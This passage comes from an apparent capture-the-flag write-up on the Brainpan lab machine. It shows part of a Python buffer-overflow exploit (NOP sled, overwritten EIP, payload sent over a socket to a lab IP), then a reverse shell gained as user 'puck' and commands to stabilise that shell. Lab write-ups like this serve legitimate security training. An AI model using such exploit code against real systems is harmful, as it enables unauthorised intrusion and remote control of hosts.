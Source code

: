 ```python
nop_sled = b"\x90" * 32

buffer = padding + eip + nop_sled + payload

# ─── 3. SET UP TARGET CONNECTION ───────────────────────────────────────────────
host = "10.10.87.171"   # ← change to your Brainpan IP if different
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((host, port))
except Exception as e:
    print(f"[-] Could not connect to {host}:{port} -> {e}")
    sys.exit(1)

# Optional: read any initial banner or prompt
try:
    banner = s.recv(1024)
    print(banner.decode(errors="ignore"))
except:
    pass

# ─── 4. SEND THE EXPLOIT (PASSWORD) ─────────────────────────────────────────────
#
# Brainpan expects a “password” line, so append "\r\n" so it’s treated as input.
s.send(buffer + b"\r\n")
print("[+] Exploit buffer sent! The reverse shell should connect back on its own.")

# Give the payload a moment to spawn the shell, then close the socket.
sleep(1)
s.close()
```

Ok, we got the exploit, let's send it and check our listener then:

![](gitbook/cybersecurity/images/Pasted%20image%2020250531145124.png)

As seen, we get a reverse shell as `puck`, let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

We already exploited the `buffer overflow` and got ourselves a shell, since we are dealing with a Linux machine, we can stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
